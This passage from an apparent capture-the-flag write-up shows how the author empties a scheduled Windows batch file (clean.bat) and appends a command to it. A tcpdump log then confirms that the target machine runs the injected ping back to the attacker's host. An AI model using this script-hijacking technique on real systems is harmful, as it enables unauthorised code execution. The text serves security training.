 

    PS C:\users\decoder> cmd /c copy /y NUL clean.bat 
            1 file(s) copied.
    PS C:\users\decoder> ls clean.bat

        Directory: C:\users\decoder

    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        23/04/2022     23:26          0 clean.bat 



In some of the [docs](https://ss64.com/nt/copy.md), it show this is
the command to create an empty file:

> Create an empty (zero byte) file:
>
> <div>
>
> <div>
>
>     COPY NUL EmptyFile.txt
>
> </div>
>
> </div>

It must be using append permissions to do that.

#### Add POC

With the `exit` gone, I can now add to the payload. I lost a lot of time
playing with issues where PowerShell was adding weird characters to the
file and it wouldn't run as a `.bat`. The safest way to do this is with
`cmd`, making sure that both the `echo` and the redirection are within
`cmd`:



    PS C:\users\decoder> cmd /c "echo ping 10.10.14.6 >> clean.bat"



The next time the minute rolled on Fighter, ICMP packets arrive at my
host:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:30:58.618713 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 69, length 40
    21:30:58.618768 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 69, length 40
    21:30:59.634045 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 70, length 40
    21:30:59.634080 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 70, length 40
    21:31:00.649225 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 71, length 40
    21:31:00.649255 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 71, length 40
    21:31:01.667140 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 72, length 40
    21:31:01.667176 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 72, length 40
